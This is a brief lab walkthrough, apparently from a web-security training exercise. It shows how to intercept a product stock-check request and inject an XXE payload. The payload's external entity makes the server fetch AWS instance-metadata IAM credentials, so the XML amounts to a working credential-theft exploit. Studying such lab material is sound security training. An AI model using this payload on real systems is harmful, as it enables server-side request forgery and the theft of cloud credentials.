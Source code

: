 
1. Check the stock information about products and intercept the request
2. Add the following payload at the request

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

```

![](/static/img/Pasted_image_20231113173237.png)

![](/static/img/Pasted_image_20231113173311.png)